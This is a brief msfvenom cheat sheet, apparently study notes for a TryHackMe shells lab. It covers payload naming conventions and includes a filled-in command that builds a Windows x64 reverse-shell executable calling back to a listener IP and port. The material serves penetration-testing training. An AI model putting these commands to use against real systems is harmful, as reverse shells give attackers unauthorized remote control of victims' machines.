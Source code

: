 ### msfvenom

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

### Standard msfvenom Syntax
```
msfvenom -p [PAYLOAD] [OPTIONS]
```
Generate a Windows x64 Reverse Shell:
```
msfvenom -p windows/x64/shell/reverse_tcp -f [FORMAT] -o [OUTPUT-FILE] LHOST=[LISTEN-IP] LPORT=[LISTEN-PORT]
```
Example:
```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.10.86.86 LPORT=4774
```

*********************************************************************************

### Payload Naming Conventions

Basic Convention:
```
[OS]/[ARCH]/[PAYLOAD]
```
Example:
```
linux/x86/shell_reverse_tcp
```
Windows 32bit Exception Example:
```
windows/shell_reverse_tcp
```
Stageless payloads are denoted with underscores _
```
shell_reverse_tcp
```
Staged payloads are denoted with another forward slash /
```
shell/reverse_tcp
```
* This rule applies to Meterpreter payloads
Windows 64bit staged Meterpreter payload Example:
```
windows/x64/meterpreter/reverse_tcp
```
Linux 32bit stageless Meterpreter payload Example:
```
linux/x86/meterpreter_reverse_tcp
```

*********************************************************************************

### List All Available Payloads
```
msfvenom --list payloads
```
Can be used with grep:
```
msfvenom --list payloads | grep "linux/x86/meterpreter"
```

*********************************************************************************

### Reference
https://tryhackme.com/room/introtoshells

